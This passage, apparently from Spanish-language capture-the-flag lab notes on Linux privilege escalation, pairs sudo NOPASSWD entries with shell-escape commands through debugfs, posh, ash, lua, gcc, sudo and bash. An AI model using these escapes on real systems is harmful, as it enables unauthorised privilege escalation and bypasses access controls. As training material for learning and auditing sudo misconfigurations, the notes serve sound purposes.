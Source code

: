 reemplazamos * por !/bin/sh

debugfs 1.47.0 (5-Feb-2023)
debugfs: !/bin/sh

presionamos enter

-------------------------------------------------------------------------------

28.-	/bin/posh

User joe may run the following commands on 1bea950f0dc2:
    (luciano) NOPASSWD: /bin/posh

sudo -u luciano /bin/posh

-------------------------------------------------------------------------------

29.-	/usr/bin/ash

User daphne may run the following commands on 4d0d8a20317b:
    (vilma) NOPASSWD: /usr/bin/ash

sudo -u vilma /usr/bin/ash

-------------------------------------------------------------------------------

30.-	 /usr/bin/lua


User shaggy may run the following commands on 4d0d8a20317b:
    (fred) NOPASSWD: /usr/bin/lua


sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

-------------------------------------------------------------------------------

31.-	/usr/bin/gcc

User fred may run the following commands on 4d0d8a20317b:
    (scooby) NOPASSWD: /usr/bin/gcc


sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s .

-------------------------------------------------------------------------------

32.-	/usr/bin/sudo

User scooby may run the following commands on 4d0d8a20317b:
    (root) NOPASSWD: /usr/bin/sudo

sudo /usr/bin/sudo /bin/sh

-------------------------------------------------------------------------------

33.-	ALL

User tails may run the following commands on 2ab230627b6e:
    (sonic) NOPASSWD: ALL

sudo -u sonic /bin/bash
